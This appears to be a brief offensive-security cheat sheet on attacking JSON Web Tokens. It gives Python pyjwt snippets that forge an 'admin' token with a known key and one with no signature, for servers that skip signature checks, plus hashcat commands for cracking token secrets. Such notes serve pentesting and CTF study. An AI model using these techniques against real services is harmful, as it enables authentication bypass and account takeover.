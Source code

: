 # JWT token attacks

### Forging own JWT tokens

[jwt.io](https://jwt.io/)

pyjwt - python library for JWT

```python
import jwt

jwt_token = jwt.encode({"username":"admin", "created":"0"}, key="SECRETKEY", algorithm="HS256")
jwt_token = jwt_token.decode("UTF-8")

print(jwt_token)
```

### No signature check

Sometimes server does not check token signature. In that case, we can change token data and send modified token

```python
import jwt

jwt_token = jwt.encode({"username":"admin", "created":"0"}, key=None, algorithm=None)
jwt_token = jwt_token.decode("UTF-8")

print(jwt_token)
```

### Cracking JWT tokens

```
hashcat -m 16500 JWT_FILE WORDLIST
hashcat -m 16500 JWT_FILE --show
```
